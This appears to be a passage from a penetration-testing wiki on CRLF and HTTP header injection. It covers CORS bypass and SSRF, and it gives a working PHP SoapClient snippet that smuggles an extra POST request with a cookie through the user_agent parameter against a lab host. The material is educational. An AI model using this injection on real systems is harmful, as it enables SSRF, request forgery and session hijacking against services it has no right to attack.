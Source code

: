 Check more examples in:

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP Header Injection

HTTP Header Injection, often exploited through CRLF (Carriage Return and Line Feed) injection, allows attackers to insert HTTP headers. This can undermine security mechanisms such as XSS (Cross-Site Scripting) filters or the SOP (Same-Origin Policy), potentially leading to unauthorized access to sensitive data, such as CSRF tokens, or the manipulation of user sessions through cookie planting.

#### Exploiting CORS via HTTP Header Injection

An attacker can inject HTTP headers to enable CORS (Cross-Origin Resource Sharing), bypassing the restrictions imposed by SOP. This breach allows scripts from malicious origins to interact with resources from a different origin, potentially accessing protected data.

#### SSRF and HTTP Request Injection via CRLF

CRLF injection can be utilized to craft and inject an entirely new HTTP request. A notable example of this is the vulnerability in PHP's `SoapClient` class, specifically within the `user_agent` parameter. By manipulating this parameter, an attacker can insert additional headers and body content, or even inject a new HTTP request entirely. Below is a PHP example demonstrating this exploitation:

```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```

### Header Injection to Request Smuggling

For more info about this technique and potential problems [**check the original source**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

